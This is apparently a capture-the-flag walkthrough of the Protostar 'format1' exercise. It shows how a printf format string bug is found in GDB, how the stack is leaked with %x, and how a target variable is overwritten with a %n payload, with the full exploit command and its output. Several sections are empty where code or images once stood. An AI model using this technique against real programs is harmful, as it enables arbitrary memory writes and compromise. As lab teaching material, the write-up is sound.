


# Analysis

* We are given with the below source code:

    

* Try some random inputs:

    

# Exploit

* Lets open this in GDB:

    

* In <span style="color:red">*<vuln+17>*</span>, it <span style="color:red">*mov eax,ds:0x8049638*</span>. If you examine that address, it actually is our <span style="color:red">*target*</span> variable.

    

* Like before, we want to overwrite <span style="color:red">*target*</span>. However, this time <span style="color:red">*target*</span>'s location on the stack is very far away from our current location on the stack.

* Since our input to <span style="color:red">*printf*</span> is stored on the stack, we have all the neccessary components to exploit this. But <span style="color:red">*printf*</span> is not in the same stack frame as the input string. This means that the input string is usually very far away from the current stack pointer. So, first we need to locate where the start of our input string is.

* <span style="color:red">*%x*</span> prints out the next 4 bytes on the stack and moves the stack pointer forward by the same amount. So we can use this to read the stack:

    

* So obviously, we want to increment the number of <span style="color:red">*%x*</span> until we hit our "AAAA" (41414141). 

```
user@protostar:/opt/protostar/bin$ ./format1 $(python -c "print 'AAAA' + '%x.'*134 + '%x'")
AAAA804960c.bffff5f8.8048469.b7fd8304.b7fd7ff4.bffff5f8.8048435.bffff7dc.b7ff1040.804845b.b7fd7ff4.8048450.0.bffff678.b7eadc76.2.bffff6a4.bffff6b0.b7fe1848.bffff660.ffffffff.b7ffeff4.804824d.1.bffff660.b7ff0626.b7fffab0.b7fe1b28.b7fd7ff4.0.0.bffff678.230a9a2b.95eec3b.0.0.0.2.8048340.0.b7ff6210.b7eadb9b.b7ffeff4.2.8048340.0.8048361.804841c.2.bffff6a4.8048450.8048440.b7ff1040.bffff69c.b7fff8f8.2.bffff7c1.bffff7dc.0.bffff975.bffff983.bffff98f.bffff9b0.bffff9c3.bffff9d6.bffff9e0.bffffed0.bfffff0e.bfffff22.bfffff39.bfffff4a.bfffff52.bfffff62.bfffff6f.bfffffa3.bfffffb2.bfffffcf.0.20.b7fe2414.21.b7fe2000.10.fabfbff.6.1000.11.64.3.8048034.4.20.5.7.7.b7fe3000.8.0.9.8048340.b.3e9.c.0.d.3e9.e.3e9.17.1.19.bffff7ab.1f.bfffffe1.f.bffff7bb.0.0.0.0.0.77000000.4d5d1483.52aa6e73.a62e2707.69255758.363836.706f2f00.72702f74.736f746f.2f726174.2f6e6962.6d726f66.317461.41414141
```
* We can use <span style="color:red">*%n*</span> to write a number of bytes written by the format string function (as we passed in) into an arbitrary address.

* Now, we can replace "AAAA" with the address of <span style="color:red">*target*</span> and the final <span style="color:red">*%x*</span> with <span style="color:red">*%n*</span> to write it to the address:

```
user@protostar:/opt/protostar/bin$ ./format1 $(python -c "print '\x38\x96\x04\x08' + '%x.'*134 + '%n'")
804960c.bffff5f8.8048469.b7fd8304.b7fd7ff4.bffff5f8.8048435.bffff7dc.b7ff1040.804845b.b7fd7ff4.8048450.0.bffff678.b7eadc76.2.bffff6a4.bffff6b0.b7fe1848.bffff660.ffffffff.b7ffeff4.804824d.1.bffff660.b7ff0626.b7fffab0.b7fe1b28.b7fd7ff4.0.0.bffff678.b4f3baa6.9ea7ccb6.0.0.0.2.8048340.0.b7ff6210.b7eadb9b.b7ffeff4.2.8048340.0.8048361.804841c.2.bffff6a4.8048450.8048440.b7ff1040.bffff69c.b7fff8f8.2.bffff7c1.bffff7dc.0.bffff975.bffff983.bffff98f.bffff9b0.bffff9c3.bffff9d6.bffff9e0.bffffed0.bfffff0e.bfffff22.bfffff39.bfffff4a.bfffff52.bfffff62.bfffff6f.bfffffa3.bfffffb2.bfffffcf.0.20.b7fe2414.21.b7fe2000.10.fabfbff.6.1000.11.64.3.8048034.4.20.5.7.7.b7fe3000.8.0.9.8048340.b.3e9.c.0.d.3e9.e.3e9.17.1.19.bffff7ab.1f.bfffffe1.f.bffff7bb.0.0.0.0.0.f1000000.ddb611b5.5aeca58f.e7cb7a22.691b4515.363836.706f2f00.72702f74.736f746f.2f726174.2f6e6962.6d726f66.317461.you have modified the target :)
```

# The bugs:

* The vulnerability is at the <span style="color:red">*printf*</span> function:

    

